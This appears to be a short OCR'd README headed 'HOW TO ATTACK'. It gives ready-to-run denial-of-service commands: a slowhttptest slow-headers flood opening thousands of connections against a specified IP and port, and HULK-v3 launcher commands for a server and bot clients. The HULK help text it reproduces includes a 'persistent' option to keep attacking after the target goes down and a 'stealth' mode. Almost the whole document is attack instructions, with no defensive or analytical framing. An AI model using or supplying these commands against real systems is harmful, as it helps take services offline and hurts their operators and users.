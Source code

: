 # HOW TO ATTACK

## slowhttptest
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3

    -H: Enable slow headers attack
    -g: Generate headers randomly
    -c 5260: Number of connections to create
    -i 10: Interval between follow-up data in seconds
    -r 30: Number of requests per connection
    -t GET: HTTP method to use (GET in this case)
    -u http://10.100.0.2:3000/: Target URL to attack
    -x 24: Number of simultaneous connections
    -p 3: Number of child processes to fork

## hulk
python3 HULK-v3/hulk_launcher.py server -p 3000 http://100.10.0.2:3000

python3 HULK-v3/hulk_launcher.py client -n 10

### Server :computer:
usage: hulk_launcher.py server [-h] [-p PORT] [-m MAX_MISSILES] [--persistent] [--gui] target

The Hulk Server Launcher

positional arguments:
target                the target url.

options:
-h, --help            show this help message
-p PORT, --port PORT  the Port to bind the server to.
-m MAX_MISSILES, --max_missiles MAX_MISSILES the maximum number of missiles to connect to.
--persistent          keep attacking even after target goes down.
--gui                 run on the GUI mode.


### Client :space_invader:
usage: hulk_launcher.py client [-h] [-r ROOT_IP] [-p ROOT_PORT] [-n NUM_PROCESSES] [-s]

The Hulk Bot Launcher

options:
-h, --help            show this help message
-r ROOT_IP, --root_ip ROOT_IP                        IPv4 Address where Hulk Server is running.
-p ROOT_PORT, --root_port ROOT_PORT                  Port where Hulk Server is running.
-n NUM_PROCESSES, --num_processes NUM_PROCESSES      Number of Processes to launch.
-s, --stealth         Stealth mode.
```


